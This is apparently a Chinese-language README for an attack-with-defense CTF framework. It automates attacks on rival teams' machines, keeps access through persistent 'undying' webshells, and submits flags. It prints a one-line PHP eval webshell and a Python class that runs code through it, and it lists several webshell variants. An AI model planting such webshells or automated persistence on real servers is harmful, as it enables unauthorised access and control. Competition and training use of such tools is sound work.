# 饕餮 AWD Framework
Enable you capture more flag!
## Function
- 自动攻击其他靶机
- 自动维持权限
- 自动提交flag

## 实现方面
框架首先加载配置文件，然后启动四个线程，自动完成加载攻击方法、提交flag、执行攻击方法、维持权限等功能。
攻击函数会根据题目数量创建对应数量的线程，实现并发，攻击方法则由用户比赛时拓展，框架将自动加载新的方法并进行攻击。
提交flag函数从一个消息队列中读取并提交，与攻击流程分离，不干扰攻击流程。
维持权限主要通过写不死马的形式实现。

框架抽象出两个类，分别为webshell类和攻击方法exp类。
### WebShell类
webshell类抽象了webshell的使用，定义了两类webshell的基类（执行系统命令的webshell和执行php代码的webshell），基类实现了写文件、查看状态、获取flag等方法。
```python
class EvalShellBase():
    def getflag(self):
        ...
    def write(self,path,content):
        ...
    def status(self):
        ..
class SystemShellBase():
  #同上
```
而具体的webshell基类需要用实现如下内容。
```python
class Shell4(EvalShellBase):
    CONTENT = '<?php eval($_POST[1]);?>'   #webshell的代码
    def __init__(self,url):    #webshell的构造方法，根据需要来初始化webshell的url、method、password等参数
        self.url = url
    def run(self,code):        #使用webshell执行命令的抽象，输入系统命令或者php代码，返回执行结果。
        return request.post(url=self.url+'?pops=www.nwpu.edu.cn',data={"1":code}).text
```

目前框架实现了四个webshell：
- shell1 使用rsa验证时间戳，可以有效防止别人上车，需要靶机环境开启openssl拓展。（推荐）
- shell2 使用md5验证身份，容易被上车。
- shell3 shell4最简单的eval和system webshell


### Exploit类

exp类由使用者在比赛中拓展，实现attack方法。该方法输入参数为靶机的`ip:port`，输出参数为webshell（使用框架内置的webshell类）或flag。
attack方法内需要用户完成getshell或getflag两者之一，比如通过任意文件上传写shell或通过任意文件读读取flag等等。
将实现类文件放入`attack/题目名称/`文件夹内即可自动加载。
## Usage
```sh
pip install -r requirements.txt     #安装拓展
vim lib/config.py                   #根据比赛环境修改配置
python3 main.py                     #启动框架
cp /home/attack1.py ./attack/web1/  #添加攻击类
```

另外由于作者技术有限，程序难免有很多bug，还请诸位给予包容。